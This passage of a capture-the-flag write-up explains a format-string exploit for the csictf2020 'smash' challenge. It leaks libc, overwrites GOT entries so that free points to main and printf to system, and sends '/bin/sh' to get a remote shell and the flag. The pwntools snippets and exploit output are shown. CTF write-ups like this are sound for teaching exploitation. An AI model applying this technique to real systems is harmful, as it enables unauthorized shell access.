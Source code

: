 This first format string will leak libc as well as GOT overwrite `free` with `main` for multiple passes.

The first part of the string is the leak and it works out to be `%29$010p`.  This will have `printf` emit exactly 10 bytes (e.g. `0x12345678`) the address of `realloc+9`.

The second part of the string is the GOT overwrite.  The offset is increased by two because the previous 8-bytes (`%29$010p`) pushes the start of the exploit string down two stack lines.  `numbwritten` set to `10` (the amount `printf` will emit from the `%29$010p` string).  If these are not correctly set, then the exploit will fail (bad math).

The rest of the code just gets the leak and computes the base of libc.

The first time this is run remotely the base of libc will probably be incorrect (i.e. not end in `000`), this is because we do not know the version of libc the task server is running.  Using the output from `log.info('realloc ' + hex(realloc_9 - 9))` we can find the version:

```bash
# libc-database/find realloc 8c0
ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu11.2_amd64)
```

And then update the `libc = ELF(...` line and rerun for a successful 2nd stage:


```python
p.sendlineafter('name?\n', fmtstr_payload(offset,{binary.got.printf:libc.sym.system},numbwritten=0))
```

The second stage is less complicated, no `offset` or `numbwritten` adjustments, just GOT overwrite `printf` with `system` (now that we know the base of libc).

Now we're all set for the final stage:


```python
p.sendlineafter('name?\n', '/bin/sh')
p.recvuntil('not found')

p.interactive()
```

When prompted for `name`, just send `/bin/sh`, since `printf` is really `system`; get a shell, get the flag.

> The `p.recvuntil('not found')` just captures the error from `system` when `Hello, ` is passed to `system`.  Optional, but for cleaner output.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/csictf2020/smash/hello'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chall.csivit.com on port 30046: Done
[*] '/pwd/datajerk/csictf2020/smash/libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] realloc 0xf7e1e8c0
[*] baselibc 0xf7dae000
[*] Switching to interactive mode

$ cat flag.txt
csictf{5up32_m4210_5m45h_8202}
```
